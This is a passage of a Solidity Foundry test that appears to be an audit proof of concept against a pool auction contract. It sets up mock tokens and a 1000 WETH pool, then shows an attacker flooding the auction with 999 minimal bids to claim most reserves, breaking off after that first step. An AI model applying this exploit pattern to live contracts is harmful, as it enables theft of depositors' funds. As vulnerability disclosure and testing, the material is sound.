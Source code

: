 ```solidity
    // 5% fee
    uint256 fee = 50000;

    function test_AuctionExploit() public {
        // create factory
        PoolFactory factory = _createFactory();
        console.log("Factory created");

        // create tokens
        address reserveToken = address(new Token("Wrapped  ETH", " WETH", false));
        address couponToken = address(new Token("USDC", "USDC", false));
        Token(couponToken).setDecimals(6);

        // create pool
        Pool pool = _createPool(factory, reserveToken, couponToken);
        console.log("Pool created");

        // there is 1000 WETH deposited in the pool (for simplicity in 1 call)
        address alice = makeAddr("alice");
        uint256 deposit = 1000 ether;
        deal(reserveToken, alice, deposit);
        console.log("Users deposits 1000 WETH");
        vm.startPrank(alice);
        IERC20(reserveToken).approve(address(pool), deposit);
        pool.create({tokenType: Pool.TokenType.BOND, depositAmount: deposit, minAmount: 0});
        vm.stopPrank();

        // one distribution period has passed
        vm.warp(block.timestamp + pool.getPoolInfo().distributionPeriod + 1);

        // set 10 days auction period
        uint256 auctionPeriod = 10 days;
        vm.prank(governance);
        pool.setAuctionPeriod(auctionPeriod);

        // start auction
        pool.startAuction();
        Auction auction = Auction(pool.auctions(0));
        uint256 totalCouponAmount = auction.totalBuyCouponAmount();
        uint256 slotSize = totalCouponAmount / 1000;
        console.log("Amount of USDC to be collected in auction:", totalCouponAmount);
        console.log("Slot size:", slotSize);

        //// START EXPLOIT

        // 1st step - attacker submits 999 bids to buy most of the availabe WETH (estimated 90% of reserves at the auction end time)
        // USDC amount is the minimal - 1x slotSize
        // WETH amount is ~ 1/1000 of 90% of reserves per bid (because at most 90% of reserves can be sold in auction)
        address attackerAddressA = makeAddr("attacker address A");
        uint256 wethAmount = 0.85 ether;
        uint256 usdcAmount = slotSize;
        deal(couponToken, attackerAddressA, slotSize * usdcAmount);
        vm.startPrank(attackerAddressA);
        uint256 numberOfBids = 999;
        IERC20(couponToken).approve(address(auction), numberOfBids * usdcAmount);
        for (uint256 i = 0; i < numberOfBids; i++) {
            auction.bid({buyReserveAmount: wethAmount, sellCouponAmount: usdcAmount});
        }
        vm.stopPrank();
        console.log("addressA submitted 999 bids");

```